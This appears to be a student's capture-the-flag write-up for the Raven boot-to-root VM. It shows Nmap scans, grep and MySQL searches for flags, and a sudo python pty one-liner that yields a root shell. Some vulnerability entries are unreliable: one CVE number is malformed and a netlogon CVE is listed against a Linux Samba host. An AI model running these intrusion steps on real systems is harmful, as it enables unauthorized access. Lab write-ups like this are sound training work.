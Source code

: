## Red Team: Summary of Operations
### Table of Contents
  - Exposed Services
  - Critical Vulnerabilities
  - Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sP 192.168.1.1-255
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 15:59 EDT
Nmap scan report for 192.168.1.1 (192.168.1.1)
Host is up (0.26s latency).
MAC Address: 18:90:68:97:97:57 (Unknown)
Nmap scan report for 192.168.1.90 (192.168.1.90)
Host is up (0.020s latency).
MAC Address: 88:E9:FE:65:17:B0 (Unknown)
Nmap scan report for 192.168.1.100 (192.168.1.100)
Host is up (0.020s latency).
MAC Address: 88:E9:FE:65:16:F0 (Unknown)
Nmap scan report for 192.168.1.115 (192.168.1.115)
Host is up (0.020s latency).
MAC Address: 88:E9:FE:65:16:C0 (Unknown)
```
Nmap scan results for each machine reveal the below services and OS details:
```
$ nmap -sV 192.168.1.110
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 16:38 PDT
Nmap scan report for 192.168.1.110
Host is up (0.00082s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.78 seconds
```

This scan identifies the services below as potential points of entry:
 - Target 1
    - Port 22
    - Port 80
    - Port 111
    - Port 139

The following vulnerabilities were identified on each target:
 - Target 1
    - CVE-2020-1472 (9.3) An elevation of privilege vulnerability exists when an attacker establishes a vulnerable netlogon secure channel connection to a domain controller, using the netlogon remote protocol
    - CVE-2020-101745 (7.8) A flaw was found in all Samba versions before 4.10.17, before 4.11.11 and before 4.12.4 in the way it processed NetBios over TCP/IP. This flaw allows a remote attacker to cause the Samba server to consume excessive CPU use, resulting in a denial of service. This highest threat from this vulnerability is to system availability

## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
 - Target 1
   - flag1.txt: flag1{b9bbcb33e11b80be759c4e844862482d}
   - Exploit Used
```
# Search for the word `flag` in all html files to find flag1
michael@target1:/var/www$ grep -RE flag html
# Prints very long output -- but, the very last line contains flag1!
./vendor/examples/scripts/XRegExp.js:	RegExp.prototype.validate = function (s) {var r = RegExp("^(?:" + this.source + ")$(?!\\s)", getNativeFlags(this)); if (this.global) this.lastIndex = 0; return s.search(r) === 0;};
./vendor/composer.lock:	"stability-flags": [],
./service.html:             	<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

# Alternatively, search for the flag directly
michael@target1:/var/www$ grep -REioh flag[[:digit:]]{.+} html
flag1{b9bbcb33e11b80be759c4e844862482d}
```
- Target 2
   - flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
   - Exploit Used
```
# Move to the website root directory to find flag2
michael@target1:~$ cd /var/www
michael@target1:/var/www$ ls
flag2.txt
michael@target1:/var/www$ cat flag2.txt
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
```
- Target 3
   - flag3{afc01ab56b50591e7dccf93122770cd2} 
   - Exploit Used
```
-- Find flag3.txt in the blog
mysql> select * from wp_posts;
-- Prints a lot of text; scroll through it to find flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
| flag4    	|          	| inherit 	| closed     	| closed  	|           	| 4-revision-v1 |     	|    	| 2018-08-12 23:31:59 | 2018-08-12 23:31:59 |                   	|       	4 | http://raven.local/wordpress/index.php/2018/08/12/4-revision-v1/ |      	0 | revision  |            	|         	0 |
|  7 |       	2 | 2018-08-13 01:48:31 | 2018-08-13 01:48:31 | flag3{afc01ab56b50591e7dccf93122770cd2}                                                                         
```
- Target 4
   - flag4{715dea6c055b9fe3337544932f2941ce} 
   - Exploit Used
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash");'
root@TARGET1:/ > id
uid=0(root) gid=0(root) groups=0(root)
root@TARGET1:/ > cd /root
root@TARGET1:/root > ls
flag4.txt
root@TARGET1:/root > cat flag4.txt
______                 	 
| ___ \                	 
| |_/ /__ ___   _____ _ __  
|	/  /  _` \ \ / / _ \ '_ \
| |\ \ (_| |\ V /  __/ | | |
\_| \_\__,_| \_/ \___|_| |_|

                        
flag4{715dea6c055b9fe3337544932f2941ce}

CONGRATULATIONS on successfully rooting Raven!

This is my first Boot2Root VM - I hope you enjoyed it.

Hit me up on Twitter and let me know what you thought:

@mccannwj / wjmccann.github.io
```


